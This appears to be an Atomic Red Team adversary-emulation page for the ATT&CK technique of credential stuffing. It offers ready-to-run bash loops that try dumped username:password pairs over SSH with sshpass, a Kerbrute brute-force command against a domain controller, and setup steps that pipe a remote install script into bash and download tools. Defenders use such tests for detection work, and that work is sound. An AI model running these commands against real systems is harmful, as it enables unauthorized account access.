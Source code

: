 # T1110.004 - Brute Force: Credential Stuffing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/004)
<blockquote>Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap. Occasionally, large numbers of username and password pairs are dumped online when a website or service is compromised and the user account credentials accessed. The information may be useful to an adversary attempting to compromise accounts by taking advantage of the tendency for users to use the same passwords across personal and business accounts.

Credential stuffing is a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies.

Typically, management services over commonly used ports are used when stuffing credentials. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Credential Stuffing From Linux](#atomic-test-1---ssh-credential-stuffing-from-linux)

- [Atomic Test #2 - SSH Credential Stuffing From MacOS](#atomic-test-2---ssh-credential-stuffing-from-macos)

- [Atomic Test #3 - Brute Force:Credential Stuffing using Kerbrute Tool](#atomic-test-3---brute-forcecredential-stuffing-using-kerbrute-tool)


<br/>

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux


**auto_generated_guid:** 4f08197a-2a8a-472d-9589-cd2895ef22ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** macOS


**auto_generated_guid:** d546a3d9-0be5-40c7-ad82-5a7d79e1b66b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/e8114640740938c20cc41ffdbf07816b428afc49/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
<br/>

## Atomic Test #3 - Brute Force:Credential Stuffing using Kerbrute Tool
Will read username and password combos from a file or stdin (format username:password) and perform a bruteforce attack

**Supported Platforms:** Windows


**auto_generated_guid:** 4852c630-87a9-409b-bb5e-5dc12c9ebcde





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domaincontroller | Domain controller where test will be run | String | $ENV:userdnsdomain|
| domain | Domain where you will be testing | String | $ENV:userdomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd $env:temp
.\kerbrute.exe bruteforce --dc #{domaincontroller} -d #{domain} $env:temp\bruteforce.txt
```




#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in $env:temp
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\kerbrute.exe){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "$env:temp\kerbrute.exe"
```
##### Description: bruteforce.txt must exist in $env:temp
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\bruteforce.txt){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.004/src/bruteforce.txt?raw=true" -outfile "$env:temp\bruteforce.txt"
```




<br/>
